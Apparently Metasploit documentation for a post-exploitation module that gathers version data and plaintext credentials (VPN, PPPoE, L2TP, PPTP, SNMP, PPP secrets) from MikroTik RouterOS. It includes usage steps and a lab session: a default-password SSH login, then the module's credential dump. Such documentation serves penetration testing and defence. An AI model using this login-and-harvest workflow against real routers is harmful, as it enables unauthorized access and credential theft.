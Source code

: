 ## Vulnerable Application

This module has been tested on the following hardware/OS combinations.

* RouterOS 6.45.9 OVA

The image is available from MikroTik [here](https://download.mikrotik.com/routeros/6.45.9/chr-6.45.9.ova)

This module runs the following commands to gather data:

* `/system package print without-paging`
* `/export verbose`

This module will look for the follow parameters which contain credentials:

* `/interface ovpn-client`
* `/interface pppoe-client`
* `/interface l2tp-client`
* `/interface pptp-client`
* `/snmp community`
* `/ppp secret`

## Verification Steps

1. Start msfconsole
2. Get a shell
3. Do: ```use post/networking/gather/enum_mikrotik```
4. Do: ```set session [id]```
5. Do: ```set verbose true```
6. Do: ```run```

## Options

## Scenarios

### RouterOS 6.45.9 OVA Image on ESXi 6.7

```
resource (mikrotik.rb)> use auxiliary/scanner/ssh/ssh_login
resource (mikrotik.rb)> set username admin
username => admin
resource (mikrotik.rb)> set password password
password => password
resource (mikrotik.rb)> set rhosts 192.168.2.59
rhosts => 192.168.2.59
resource (mikrotik.rb)> run
[+] 192.168.2.59:22 - Success: 'admin:password' 'MikroTik CHR 6.45.9 (long-term)'
[*] Command shell session 1 opened (192.168.2.199:44401 -> 192.168.2.59:22) at 2020-07-18 07:27:35 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```
resource (mikrotik.rb)> use post/networking/gather/enum_mikrotik
resource (mikrotik.rb)> set session 1
session => 1
resource (mikrotik.rb)> set verbose true
verbose => true
resource (mikrotik.rb)> run
[*] Getting version information
[+] Flags: X - disabled 
 #   NAME                    VERSION                    SCHEDULED              
 0   routeros-x86            6.45.9                                            
 1   system                  6.45.9                                            
 2 X ipv6                    6.45.9                                            
 3   ups                     6.45.9                                            
 4   wireless                6.45.9                                            
 5   hotspot                 6.45.9                                            
 6   mpls                    6.45.9                                            
 7   routing                 6.45.9                                            
 8   ppp                     6.45.9                                            
 9   dhcp                    6.45.9                                            
10   security                6.45.9                                            
11   advanced-tools          6.45.9                                            
12   dude                    6.45.9                                            


[+] Version information stored in to loot /home/h00die/.msf4/loot/20200718072746_default_192.168.2.59_mikrotik.version_337070.txt
[*] Gathering info from /export verbose
it was a string
292
[+] 192.168.2.59:22 OS: RouterOS 6.45.9
[+] 192.168.2.59:22 disabled Open VPN Client to 10.99.99.98 on mac FE:45:B0:31:4A:34 named ovpn-out1 with username user and password password
[+] 192.168.2.59:22 disabled Open VPN Client to 10.99.99.98 on mac FE:45:B0:31:4A:34 named ovpn-out2 with username user and password password
[+] 192.168.2.59:22 disabled Open VPN Client to 10.99.99.98 on mac FE:45:B0:31:4A:34 named ovpn-out3 with username user and password password
[+] 192.168.2.59:22 disabled Open VPN Client to 10.99.99.98 on mac FE:45:B0:31:4A:34 named ovpn-out4 with username user and password password
[+] 192.168.2.59:22  PPPoE Client on ether2 named pppoe-user and service name internet with username user and password password
[+] 192.168.2.59:22  L2TP Client to 10.99.99.99 named l2tp-hm with username l2tp-hm and password 123
[+] 192.168.2.59:22  PPTP Client to  named pptp-hm with username pptp-hm and password 123
[+] 192.168.2.59:22 SNMP community write with password write(MD5), encryption password ""(DES) and write access
[+] 192.168.2.59:22 SNMP community v3 with password 0123456789(SHA1), encryption password 9876543210(AES) and write access
[+] 192.168.2.59:22 disabled PPP tunnel bridging named ppp1 with profile name ppp_bridge and password password
[*] Post module execution completed
```
